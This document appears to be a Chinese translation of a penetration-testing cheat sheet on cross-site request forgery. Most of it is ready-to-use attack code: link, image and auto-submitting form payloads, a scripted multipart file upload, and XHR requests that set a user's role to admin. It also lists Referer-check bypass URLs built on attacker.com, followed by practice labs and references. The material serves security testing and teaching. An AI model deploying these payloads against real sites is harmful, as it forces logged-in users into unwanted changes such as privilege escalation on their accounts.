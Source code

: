 # 跨站请求伪造

> 跨站请求伪造（CSRF/XSRF）是一种攻击，它迫使终端用户在当前认证的网络应用程序上执行不希望的操作。CSRF攻击特别针对改变状态的请求，而不是数据盗窃，因为攻击者无法看到伪造请求的响应。- OWASP

## 摘要

- 工具
- 方法论
- 有效载荷
  - HTML GET - 需要用户交互
  - HTML GET - 无需用户交互
  - HTML POST - 需要用户交互
  - HTML POST - 自动提交 - 无需用户交互
  - HTML POST - 带有文件上传的multipart/form-data - 需要用户交互
  - JSON GET - 简单请求
  - JSON POST - 简单请求
  - JSON POST - 复杂请求
- 绕过引用头验证检查
  - 基本有效载荷
  - 带问号的载荷
  - 带分号的载荷
  - 带子域的载荷
- 实验室
- 参考资料

## 工具

- XSRFProbe - 首选的跨站请求伪造审计和开发工具包。

## 方法论

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true

## 有效载荷

当您登录到某个网站时，您通常会有一个会话。该会话的标识符存储在浏览器中的cookie中，并且会随着每个请求发送到该站点。即使其他站点触发了请求，cookie也会随请求一起发送，并且请求会被处理，就像登录用户执行了操作一样。

### HTML GET - 需要用户交互

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">点击我</a>
```

### HTML GET - 无需用户交互

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - 需要用户交互

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
<input name="username" type="hidden" value="CSRFd" />
<input type="submit" value="提交请求" />
</form>
```

### HTML POST - 自动提交 - 无需用户交互

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
<input name="username" type="hidden" value="CSRFd" />
<input type="submit" value="提交请求" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - 带有文件上传的multipart/form-data - 需要用户交互

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">提交请求</button>
```

### JSON GET - 简单请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - 简单请求

使用XHR：

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//简单请求中不允许使用application/json。默认是text/plain
xhr.setRequestHeader("Content-Type", "text/plain");
//您可能还想尝试以下一种或两种方法
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

使用自动提交表单发送，该方法绕过了某些浏览器保护措施，例如Firefox浏览器的增强跟踪保护标准选项：

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// 此输入将发送：{"role":admin,"other":"="}
<input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - 复杂请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## 绕过referer header验证

### 基础有效载荷

```markdown
1) 打开 https://attacker.com/csrf.html
2) 引用头是..

Referer: https://attacker.com/csrf.html
```

### 使用问号(`?`)有效载荷

```markdown
1) 打开 https://attacker.com/csrf.html?trusted.domain.com
2) 引用头是..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### 使用分号(`;`)有效载荷

```markdown
1) 打开 https://attacker.com/csrf.html;trusted.domain.com
2) 引用头是..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### 使用子域名有效载荷

```markdown
1) 打开 https://trusted.domain.com.attacker.com/csrf.html
2) 引用头是..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```




## 实验

* [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


## 参考链接

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/) 
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
